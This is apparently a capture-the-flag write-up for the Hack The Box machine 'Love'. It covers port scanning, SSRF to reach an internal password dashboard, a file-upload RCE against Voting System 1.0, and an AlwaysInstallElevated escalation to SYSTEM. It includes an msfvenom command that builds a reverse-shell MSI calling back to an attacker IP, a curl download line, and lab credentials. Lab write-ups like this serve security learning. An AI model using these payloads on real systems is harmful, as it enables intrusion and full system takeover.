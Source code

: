 1, port scan and subdomain enumerate
```
80/tcp http http-title: Voting System using PHP
443/tcp ssl/http
445/tcp SMB
3306/tcp mysql
5000/tcp http
7680/tcp pando-pub

staging.love.htb
```

2, enumerate the web page and services.
(*1*) , check the http service port 80 
```
There is a **Voting System** Login Page.
We didnot have any credits, but we can try some default creds.
Very sad, there is no useful defaults.
So let's check other services.

But we can search some exploits about the version of Voting System using PHP.

So crazy, there are so many search result and most of them are high-level danger. :)

Thus, I would choose a rce vulner:
Voting System 1.0 - Remote Code Execution (Unauthenticated)
http://love.htb/admin
```

(*2*), check the http service port 443, 5000
`Get the request code 403 Forbidden.

(*3*), check the SMB service port 445
```
smbclient -L 10.10.10.239

Password for [WORKGROUP\wither]:
session setup failed: NT_STATUS_ACCESS_DENIED

It need the auth!
```

(*4*), check the mysql service port 3306
```
mysql -h 10.10.10.239

ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.14.65' is not allowed to connect to this MariaDB server
```

(*5*), check the subdomain 'staging.love.htb'
```
There is a file scan service and we need to input our file url.
Let's try and see what can we get.

It worked, so that means we can use it to check the port 5000 or 443 to find something we are forbiddened.

Then we can find 5000 port has a service of Password Dashboard.
Thus we get a password: 
**Vote Admin Creds admin: @LoveIsInTheAir!!!!**
```

\3, get the user shell.
Like before, we have known the user admin's credit and we know the admin login page. So let's just login it and check it.

Let's come to exploit database and check some useful poc for us.
`Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)`
It looks very prefect for us and we can bind it to our shell.
After making appropriate modifications, we can get user shell.

4, shell as SYSTEM
```
Enumeration 
After looking around the filesystem a bit manually, I opted to run WinPEAS. After cloning the repo to my VM, I went into the directory with winPEAS.exe and started a Python web server (python3 -m http.server 80).
```
By check the history file ,we get 
`curl 10.10.14.9:8000/dControl.zip -o dControl.zip`

```
Being able to create directories at the C:\ root is interesting.

  [+] Drives Information
   [?] Remember that you should search more info inside the other drives
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 3 GB)(Permissions: Authenticated Users [AppendData/CreateDirectories])  
```

```
AlwaysInstallElevated is set to 1:

  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU! 
```
These registry keys tell windows that a user of any privilege can install .msi files are NT AUTHORITY\SYSTEM. So all I need to do is create a malicious .msi file, and run it.
这些注册表项告诉 Windows 任何权限的用户都可以安装 NT AUTHORITY\SYSTEM 下的.msi文件。所以我需要做的就是创建一个恶意.msi文件并运行它。

So, we can use msfvenom to make a payload.
`msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.65 LPORT=4444 -f msi -o rev.msi`

Then just upload it to the machine and exec it .Then we can get the SYSTEM shell.




